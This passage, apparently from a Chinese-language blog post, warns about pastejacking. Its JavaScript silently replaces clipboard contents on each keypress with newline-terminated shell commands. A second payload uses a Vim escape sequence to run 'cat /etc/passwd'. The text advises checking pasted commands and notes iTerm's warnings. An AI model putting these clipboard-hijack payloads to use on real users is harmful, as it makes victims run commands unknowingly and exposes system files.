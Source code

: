```js
  try {
    var successful = document.execCommand("copy");
    var msg = successful ? "successful" : "unsuccessful";
    console.log("Copying text command was " + msg);
  } catch (err) {
    console.log("Oops, unable to copy");
  }

  document.body.removeChild(textArea);
}

document.addEventListener("keydown", function (event) {
  var ms = 800;
  var start = new Date().getTime();
  var end = start;
  while (end < start + ms) {
    end = new Date().getTime();
  }
  copyTextToClipboard('touch ~/.evil\nclear\necho "not evil"');
});
```

防不胜防啊。这东西就好像当年某些钓鱼网站让你乱下一些 PE 病毒一样，并没有直接的解决方案，最好的防护方式就是以后你复制命令到终端的时候仔细瞅瞅，或者先复制到一个第三方的编辑器内看看有没有啥奇怪的命令。不过别用 Vim 作为验证，譬如如下的攻击方式：

```
copyTextToClipboard('echo "evil"\n \x1b:!cat /etc/passwd\n');
```

它会利用 Vim 的 Macro 来获取你的用户密码等。如果你用的是 ITerm，它会提醒你那些自动利用换行来执行的命令: ![](https://camo.githubusercontent.com/88d852a7f44fff0ad3fd064241567a9079b6133d/687474703a2f2f692e696d6775722e636f6d2f573870776546312e706e67)

    